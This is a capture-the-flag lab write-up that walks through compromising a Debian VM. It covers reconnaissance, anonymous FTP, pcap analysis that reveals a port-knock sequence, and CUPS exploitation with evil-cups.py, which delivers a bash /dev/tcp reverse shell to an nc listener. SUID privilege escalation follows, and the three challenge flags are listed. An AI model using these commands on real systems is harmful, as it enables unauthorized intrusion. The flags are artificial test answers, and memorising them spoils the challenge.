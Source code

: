 ### Step 1: Import the .ova file into vmware 
After importing into virtualbox or vmware, we can notice it is a Linux Debian machine with the username of **alexander**. The next task is to get the IP address of this machine from a attack machine, for this case our attack machine used is Parrot OS. 

![MCC24-2024-11-29-15-18-03](./static/MCC24-2024-11-29-15-18-03.png)

### Step 2: Ping sweep to get the IP address of the machine

With this one liner bash script, we get the victim machine IP address. 

```bash
for i in $(seq 254); do ping 172.20.10.$i -c1 -W1 & done | grep from
```

Make sure the IP address that we going to scan is within the subnet which is **172.20.10** 

![Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51](./static/idk2namethis.png)

### Step 3: Use Nmap to scan open ports of the machine

```bash
 nmap -A 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-29 16:28 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 00:dd:3e:84:f7:9c:5e:91:86:f4:e3:88:4a:98:8b:bc (ECDSA)
|_  256 91:8e:1f:ca:0d:33:01:96:45:75:30:ca:e7:e4:dc:7a (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
```

We notice that the machine has 3 ports are open which are FTP (21), SSH (22) and HTTP (80). Moreover, the FTP server of the machine allow anonymous login. 
### Step 4: Use FTP to check files that are expose
```bash
ftp 172.20.10.6
Connected to 172.20.10.6.
220 ///  My Private File Sharing System ///
Name (172.20.10.6:trevorphilips): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> get net.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for net.pcap (56420 bytes).
226 Transfer complete.
56420 bytes received in 0.01 seconds (5.38 Mbytes/s)
ftp> quit
221 Goodbye.
```

From the ftp server, we can notice a pcap file can be access. We can use `ls` and `get` to download the pcap file to analyze it futher.
### Step 5: Analyze PCAP 
Opening the `net.pcap` file, we can first analyze it from the protocol hierarchy and relate with the communication of IP address.

![pcap-analysis](./static/pcap-analysis.png)

From the protocol hierarchy output, we able to investigate futher in tcp transmissions based on the IP address communication.

![pcap-analysis-2](./static/pcap-analysis-2.png)

After futher investigation, we notice port knocking performed by `ip.addr==192.168.248.151 && ip.addr==192.168.248.137`

The wireshark filter to narrow down on port knocking action is this:
```
ip.addr==192.168.248.151 && ip.addr==192.168.248.137 && (tcp.flags.syn == 1 && tcp.flags.ack == 0)
```

![screenshot](./static/screenshot.png)


### Step 9: Port Knocking on PCAP (TCP.SYN.ACK to open port 631)
- in detail on which port is being knocked

### Step 10: Nmap to port 631 and found new service called CUPS
After analyzing the pcap file, we notice the use of port 631, which is for the Internet Printing Protocol (IPP). This protocol is commonly used by CUPS (Common UNIX Printing System) to manage print jobs and printers over a network. 

References: [631 - Internet Printing Protocol (IPP)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp)

In order to perform nmap scan on the victim machine, we have to perform knocking with knockd
```
knock 172.20.10.6 77 67 2024
```

Later than we can perform nmap scan on port 631

```
nmap -A -sV -p 631 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-30 21:34 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00042s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
|_http-server-header: CUPS/2.4 IPP/2.1
| http-robots.txt: 1 disallowed entry
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

From the scan result, we get to know that CUPS service is running with the version 2.4.2 which uses IPP and able to access with a web interface, as it indicated the HTTP details with `robots.txt`. 

### Step 11: Get reverse shell via evilcups to the victim machine

To gain access to the victim machine, utilize reverse shell from [evilcups.py](https://github.com/IppSec/evil-cups/blob/evilcups.py) which allow the attacker's machine to receive connection from the victim machine

First, step up a listener with nc
```
nc -lvnp 4545
```

Next, execute the reverse shell
```
python3 evil-cups.py 172.20.10.4 172.20.10.6 'bash -c "bash -i >& /dev/tcp/172.20.10.4/4545 0>&1"'
```
![reversehell1](./static/reverseshell1.png)

![reverseshell2](./static/reverseshell2.png)

![image](./static/image.webp)

Once we enter the victim machine, the first flag is located at `/home/lp`, we can cat the `initial_flag.txt`
**1st Flag:** `MCC24{h3ll0_fr0m_pr1nt1ng_s3rv1c3s}`

### Step 12: Use tools suid3num to enumerate 

![image](./static/image.png)

We have tried running linpeas but unfortunately it does not work due to timeout. So, we opt for suid3num enumeration to perform privilege escalation. 

![image (1)](./static/image-1.png)

Now, we have found the second flag.

**2nd Flag:** `MCC24{4bus1ng_su1d}`

### Step 13: Found last flag with alexander's privilege at home directory 

![image (1)](./static/image-1.webp)

**3rd Flag:** `MCC24{g00d_j0b_3v3ry0n3}`


### Rabbit Hole Faced

